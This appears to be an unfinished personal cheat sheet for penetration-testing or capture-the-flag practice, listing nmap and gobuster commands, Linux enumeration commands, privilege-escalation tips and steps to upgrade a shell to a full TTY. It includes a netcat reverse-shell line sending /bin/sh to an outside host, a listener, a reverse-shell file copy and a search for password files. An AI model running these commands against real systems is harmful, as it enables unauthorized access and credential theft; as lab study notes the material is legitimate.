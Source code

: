 # Enumuration

## NMAP
* *sudo nmap -sC -sV -O -oA \<Output Directory\> \<IP Address\>* - Basic nmap scan for the top ports only. (-sC for default scripts, -sV for version enum, -O for OS enum)
* *sudo nmap -sC -sV -O -p- -oA \<Output Directory\> \<IP Address\>* - Scan for all the ports.
* *nmap --script vuln -oA \<Output Directory\> \<IP Address\>* - Run vulnerability scripts on the target.
* *nmap -sU -oA \<Output Directory\> \<IP Address\>* - Runs a scan for the top UDP ports.

## Fuzzing
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\>* - You can use another wordlist as well.
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\> -f* - (-f) is used when the server treats /cgi-bin and /cgi-bin/ differently.
* gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\>/<Directory>/ -x sh,cgi - Searches for files in a directory and (-x) is used to specify the extension.

## Windows Exploits
* Blue (SMB)
* PEASS-ng
* 
## Linux Exploits

## Privilege Escalation

## Reverse Shells 

## How to brute force

## How to break hash

## Useful Commands (Linux)
* grep/search/etc..
* sudo -l
* whoami
* id
* uname -a
* sudo -i -u scriptmanager
* locate password | grep john
* cp php-reverse-shell.php artisan
* nc -nlvp 4444
* nc -nv 10.10.14.30 4444 -e /bin/sh (Target machine to send a reverse shell)
* chmod +x \<File Name\>
* searchsploit --id httpd


## Useful Commands (Windows)
* grep/search/etc..
* sudo -l
* 
## Useful Information (General)
* Even if you don't have access to a directory you might have access to the files in that directory. (When you get a 403, try fuzzing inside the directory)
* Some servers treat /Directory and /Directory/ differently, the first one might not be accessible but the second might be, make sure to check both when fuzzing.


## Useful Information (Linux)
* Crontab are a list of commands in Linux that are executed on a regular basis. Making it a useful persistent technique and privilege escalation technique.
* If a reverse shell is executed by a specific user, the shell granted will be of that user's privilege. (i.e. if you executed a shell as root, you will get root shell)
* Sometimes even if you can execute a file, you can read/write to it.
* Sometimes even if you aren't root, you can run specific commands with root privilege.

## Useful Information (Windows)


### How to upgrade a shell to a fully interactive TTY.
* *python -c 'import pty; pty.spawn("/bin/bash")'* - Spwans */bin/bash* using Python’s PTY module
* *Ctrl + Z* - Background the shell.
* *stty raw -echo && fg* - Upgrade the local terminal with *stty* and foreground the reverse shell.
* *Double Enter*
